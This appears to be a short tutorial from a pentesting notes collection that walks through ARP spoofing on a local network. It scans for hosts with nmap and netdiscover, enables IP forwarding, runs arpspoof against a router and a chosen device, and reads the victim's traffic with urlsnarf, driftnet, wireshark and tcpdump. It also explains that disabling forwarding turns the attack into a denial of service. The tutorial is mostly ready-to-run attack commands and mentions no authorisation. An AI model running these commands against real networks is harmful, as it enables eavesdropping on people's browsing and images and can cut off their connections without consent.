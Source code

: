 # ARP-spoofing



## Arp-spoofing - Sniffing traffic <a id="arp-spoofing---sniffing-traffic"></a>

### Step 1 <a id="step-1"></a>

Run nmap or netdiscover to list the devices on the network. `netdiscover -r 192.168.1.0/24` or whatever network range it is. This is good because it is live, and it updates as soon as new devices connect to the network.

```text
nmap -vvv 192.168.1.0/24
```

### Step 2 <a id="step-2"></a>

```text
echo 1 > /proc/sys/net/ipv4/ip_forward
```

this command is fundamental. Without changing it to `1`you will only block the traffic, but not forward it. So that will bring down the connection for that person. Denial of service. If you want to do that make sure it is set to 0. If you want to intercept it make sure it is set to 1.

### Step 3 <a id="step-3"></a>

```text
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.105
```

* `-i` is the interface flag. In this example we choose the wlan0 interface. Run `ifconfig` to see which interfaces you have available.
* `-t` the target flag. It specifies your target. The first address is the router, and the second is the specific device you want to target.

### Step 4 - Read the traffic <a id="step-4---read-the-traffic"></a>

So now you are intercepting the traffic. You have a few choices how to read it. Use urlsnarf.

```text
urlsnarf -i wlan0
```

it will output all URLs.

```text
driftnet -i wlan0
```

Driftnet is pretty cool. It let's you see all the images that is loaded in the targets browser in real time. Not very useful, but kind of cool.

* wireshark. Just open wireshark and select the interface and start capturing.
* Tcpdump. Also awesome.

